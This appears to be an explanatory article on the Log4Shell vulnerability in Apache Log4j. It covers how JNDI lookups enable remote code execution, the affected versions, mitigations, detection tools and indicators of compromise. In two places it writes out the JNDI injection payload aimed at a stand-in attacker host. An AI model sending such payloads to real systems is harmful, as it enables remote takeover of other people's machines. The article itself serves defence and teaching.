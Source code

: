 ## The Log4j Vulnerability
The Log4j vulnerability, also known as **Log4Shell (CVE-2021-44228), is a critical zero-day exploit discovered in December 2021 that affects the widely used Java-based logging library Apache Log4j**. This vulnerability enables **Remote Code Execution (RCE)**, potentially allowing attackers to take full control of affected systems.

## 1. Overview of Log4j
  - What is Log4j?
    - **A popular open-source Java logging library** developed by the Apache Software Foundation.
    - Widely used across enterprise applications, cloud services, and frameworks.
  - The Vulnerability
    - CVE-2021-44228: **Allows attackers to send specially crafted input strings to applications that use Log4j, which are then logged and trigger the vulnerability**.
    - **Exploited via the Java Naming and Directory Interface (JNDI)** feature in Log4j.

## 2. How the Vulnerability Works
1. **Malicious Input**
  - An attacker **sends a crafted payload containing a malicious JNDI lookup string to an application**.
  - Example:

```
${jndi:ldap://attacker.com/exploit}
```

2. **JNDI Lookup**
  - Log4j processes the string and attempts a lookup via JNDI.
  - JNDI can query external services (e.g., LDAP, RMI).

3. **Remote Code Execution**
  - If the lookup resolves to a malicious server, the attacker can supply a payload that Log4j executes on the vulnerable system.

4. **Impact**
  - Attackers gain RCE capabilities, allowing them to execute arbitrary code, steal data, deploy ransomware, or escalate privileges.

## 3. Why Log4Shell is Dangerous
  - **Widespread Use**
    - Log4j is embedded in numerous applications, frameworks, and services.
    - Includes enterprise software (e.g., ElasticSearch, Kafka) and cloud platforms.
  - **Ease of Exploitation**
    - Requires minimal technical knowledge; attackers only need to send crafted strings to logs.
  - **Severe Impact**
    - Remote code execution can compromise entire systems or networks.
  - **Stealth**
    - Exploitation may leave minimal traces, making detection challenging.

## 4. Affected Versions
  - Vulnerable Versions
    - Apache Log4j 2.0-beta9 to 2.14.1.
  - Fixed Versions
    - Apache Log4j 2.15.0 and later.
    - Further fixes in 2.16.0 and 2.17.0 addressed related issues.

## 5. Mitigation and Prevention

### a. Immediate Actions
1. **Update Log4j**
  - Upgrade to a fixed version (2.15.0 or later, ideally 2.17.0).
  - Remove unused Log4j libraries from applications.
2. Temporary Workarounds
  - **Set the log4j2.formatMsgNoLookups system property to true**:  
```
-Dlog4j2.formatMsgNoLookups=true
```
  - **Remove the JNDI class from the Log4j library**:  
```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

3. **Disable JNDI**
  - Ensure JNDI lookups are not enabled in the application.

### b. Long-Term Actions
1. **Audit Systems**
  - Identify and inventory applications and systems that use Log4j.
  - Use scanning tools to detect vulnerable versions.
2. **Monitor for Exploitation**
  - Monitor logs for JNDI lookup patterns or unexpected outbound traffic.
3. **Apply Patches**
  - Stay updated on Apache Log4j patches and advisories.
4. **Restrict Outbound Traffic**
  - Limit outbound network access for applications to reduce the risk of malicious JNDI lookups.

## 6. Detection and Exploitation Indicators

### Indicators of Compromise (IOCs)
  - **Unexpected JNDI lookups in logs**
```
${jndi:ldap://malicious-server.com/exploit}
```
  - **Anomalous outbound traffic**
    - Connections to unknown LDAP or RMI servers.
  - **New or unknown processes spawned by the application**.

### Detection Tools
  - Open Source Scanners
    - **Log4j Detec**t: Scans for vulnerable Log4j libraries.
    - **Lacework Log4Shell Detector**: Detects active exploitation.
  - **SIEM Tools**
    - Use queries to identify patterns indicating exploitation attempts.

## 7. Real-World Impact
  - Attacks
    - Major organizations and cloud providers reported attacks exploiting Log4Shell.
    - **Used for ransomware deployment, cryptocurrency mining, and data exfiltration**.
  - Response
    - Cloud providers like AWS, Azure, and GCP quickly implemented mitigations and patches in their services.

## 8. Summary

| Aspect | Details |
| ------ | ------- |
| Vulnerability Name | Log4Shell |
| CVE | CVE-2021-44228 |
| Type | Remote Code Execution (RCE) |
| Affected Versions | Log4j 2.0-beta9 to 2.14.1 |
| Mitigation | Update to 2.15.0 or later, disable JNDI, or patch/remove JNDI class. |
| Impact | Full system compromise, data theft, ransomware deployment. |
| Detection Tools | Log4j Detect, Lacework Log4Shell Detector, SIEM queries. |

**The Log4j vulnerability, Log4Shell, highlights the risks associated with widely used open-source libraries**. Organizations should **prioritize patching and monitoring, while adopting long-term measures such as enhanced dependency management and runtime protections** to mitigate future threats.
